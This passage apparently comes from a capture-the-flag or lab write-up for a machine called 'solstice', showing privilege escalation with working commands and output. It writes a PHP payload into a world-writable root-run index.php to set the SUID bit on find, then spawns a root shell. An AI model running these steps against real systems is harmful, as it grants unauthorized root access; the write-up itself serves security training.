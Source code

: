 ## Escalation
If we review the running processes, we’ll find a local web server running as root.

```bash
www-data@solstice:/var/tmp/webserver$ ps aux
ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
...
root       474  0.0  0.0   2388   756 ?        Ss   Aug11   0:00 /bin/sh -c /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/
...
root       480  0.0  2.0 196744 21104 ?        S    Aug11   0:01 /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/
...
```

Within the web server’s root folder, we’ll notice the index.php file is world-writable.

```bash
www-data@solstice:/var/tmp/webserver$ ls -l /var/tmp/sv
ls -l /var/tmp/sv
total 4
-rwxrwxrwx 1 root root 36 Jun 19 00:01 index.php
```

We can use this file to execute commands as root. Let’s run find with the SUID bit.

```bash
www-data@solstice:/var/tmp/webserver$ echo "<?php system('chmod +s /usr/bin/find'); ?>" > /var/tmp/sv/index.php
echo "<?php system('chmod +s /usr/bin/find'); ?>" > /var/tmp/sv/index.php

www-data@solstice:/var/tmp/webserver$ curl localhost:57
curl localhost:57

www-data@solstice:/var/tmp/webserver$ ls -l /usr/bin/find
ls -l /usr/bin/find
-rwsr-sr-x 1 root root 315904 Feb 16  2019 /usr/bin/find
```

We can then use find to escalate our shell.

```bash
www-data@solstice:/var/tmp/webserver$ find . -exec /bin/bash -p \; -quit
find . -exec /bin/bash -p \; -quit
bash-5.0# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

